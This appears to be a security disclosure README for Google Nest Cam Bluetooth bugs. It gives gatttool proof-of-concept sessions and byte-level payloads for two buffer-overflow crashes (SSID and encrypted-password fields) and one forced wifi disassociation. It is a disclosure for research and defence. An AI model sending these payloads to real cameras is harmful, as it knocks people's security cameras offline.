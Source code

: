 # Google-Nest-Cam-Bug-Disclosures

######-Buffer Overflow via SSID parameter-######
1. Proof of Concept
anon@ubuntu:~/nest$ gatttool -b 18:B4:30:5D:00:B8 -t random -I
[18:B4:30:5D:00:B8][LE]> connect
Attempting to connect to 18:B4:30:5D:00:B8
Connection successful
[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3a031201AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3b
Characteristic value was written successfully
Characteristic value was written successfully
[18:B4:30:5D:00:B8][LE]> 
(gatttool:20352): GLib-WARNING **: Invalid file descriptor.

2. Description
The payload attempts to set an SSID with a length of 1 byte and sends 16.
3a031201AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA = SequenceNum=3a + Type=0312 + Length=01 + Value=AA*16

3. Result
Crash and reboot back to operational state

######-Buffer Overflow via Encrypted Password parameter-######
1. Proof of Concept
anon@ubuntu:~/nest$ gatttool -b 18:B4:30:5D:00:B8 -t random -I
[18:B4:30:5D:00:B8][LE]> connect
Attempting to connect to 18:B4:30:5D:00:B8
Connection successful
[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3a03120b506574536d6172742d356e1a01AAAAAA
[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3b
Characteristic value was written successfully
Characteristic value was written successfully
[18:B4:30:5D:00:B8][LE]> 
(gatttool:20352): GLib-WARNING **: Invalid file descriptor.

2. Description
The payload attempts to set the encrypted wifi password with a length of 1 byte and sends 3.
3a03120b506574536d6172742d356e1a01AAAAAA = SequenceNum=3a + Type=0312 + Length=0b + ssidVal=506574536d6172742d356e + type=1a + length=01 + encPass=AA*3

3. Result
Crash and reboot back to operational state


######-Force Wifi Reassociation-######
1. Proof of Concept
anon@ubuntu:~/nest$ gatttool -b 18:B4:30:5D:00:B8 -t random -I
[18:B4:30:5D:00:B8][LE]> connect
Attempting to connect to 18:B4:30:5D:00:B8
Connection successful
[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3a03120b0a6574536d6172742d356e1a20232320
[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3becb824ba437c13233ac2ff78b1776456e47a01
[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3ca5787d2f5e53f394a512200228003210bc9253
[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3d48cada7a0d921d57b2d26ae89c3a04DEADBEEF
[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3e
Characteristic value was written successfully
Characteristic value was written successfully
Characteristic value was written successfully
Characteristic value was written successfully
Characteristic value was written successfully
[18:B4:30:5D:00:B8][LE]> 

2. Description
The payload attempts to change Nest Cam's associated SSID causing temporary disassociation from the current Wifi SSID. Without knowing the encryption key, a valid password can not be set.
char-write-req 0xfffd 3a03120b0a6574536d6172742d356e1a20232320	/	seqNum + 0312(type) 0b(len) + SSID + 1a(type) 20(len) + encPass
char-write-req 0xfffd 3becb824ba437c13233ac2ff78b1776456e47a01	/ 	seqNum + encPass(cont)
char-write-req 0xfffd 3ca5787d2f5e53f394a512200228003210bc9253	/ 	seqNum + encPass(cont) + 2002280032(constant) + 10(len) + authTag
char-write-req 0xfffd 3d48cada7a0d921d57b2d26ae89c3a04DEADBEEF	/	seqNum + authTag(cont) + 3a(UnknownType) 04(len) + DEADBEEF
char-write-req 0xfffd 3e					/	execute

3. Result
Camera dissociates from current wifi network to attempt association with newly set SSID. The camera goes offline for approximately 60-90 seconds before returning to the original Wifi network and resuming normal operation. No reboot or crash was observed.
